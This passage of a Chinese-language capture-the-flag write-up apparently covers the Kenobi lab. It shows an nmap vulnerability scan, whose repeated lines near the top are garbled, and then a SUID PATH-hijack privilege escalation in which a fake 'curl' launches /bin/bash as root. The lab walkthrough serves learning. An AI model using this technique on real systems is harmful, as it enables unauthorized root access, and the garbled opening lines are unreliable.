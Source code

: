```nmap -sV -vv --script=vuln TARGET_IP```nmap -sV -vv——script=vuln TARGET_IP ' ' 'nmap -sV -vv——script=vuln TARGET_IP ' ' ' nmap -sV -vv——script=vuln TARGET_IP ' ' '
+ /usr/bin/menu 比较特别，运行一下：

    tips: 这里重新部署了下target和attack机器，之前的操作一样：

    + target machine: 10.10.1.230

    + attack machine: 10.10.248.22 (Attack Box)

    ```
    kenobi@kenobi:~$ /usr/bin/menu

    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :
    ···
    ```
    
+ strings 可打印二进制文件中可打印的字符，这里查看/usr/bin/menu运行时的信息:

    ```
    kenobi@kenobi:~$ cd /tmp
    kenobi@kenobi:/tmp$ strings /usr/bin/menu
    /lib64/ld-linux-x86-64.so.2
    libc.so.6
    setuid
    __isoc99_scanf
    puts
    __stack_chk_fail
    printf
    system
    __libc_start_main
    __gmon_start__
    GLIBC_2.7
    GLIBC_2.4
    GLIBC_2.2.5
    UH-`
    AWAVA
    AUATL
    []A\A]A^A_
    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :
    curl -I localhost
    uname -r
    ifconfig
    ···
    ```

    + 观察以上结果可以得知：当我们执行/usr/bin/menu 时，选择选项1其实是在执行一个curl命令，选择选项2其实是在执行uname -r命令。

    + 这表明二进制文件curl和uname，是在没有完整路径的情况下运行的(例如没有使用/usr/bin/curl 或/usr/bin/uname运行文件)。

    + 我们已经知道/usr/bin/menu文件是一个SUID文件，它在执行时会暂时具有root 用户权限，我们可以尝试自定义创建一个curl文件（并写入/bin/bash，意思是打开一个bash shell），然后我们再给自定义的curl文件附加可执行权限（+x），接着将自定义的curl文件所在的路径添加到PATH变量中（这样能够保证我们自定义的curl文件能够被首先找到）。

    + 完成以上操作之后，执行SUID文件/usr/bin/menu，产生的效果是：以root权限打开一个bash shell-----这将获得root shell

        ```
        kenobi@kenobi:/tmp$ echo /bin/bash > curl
```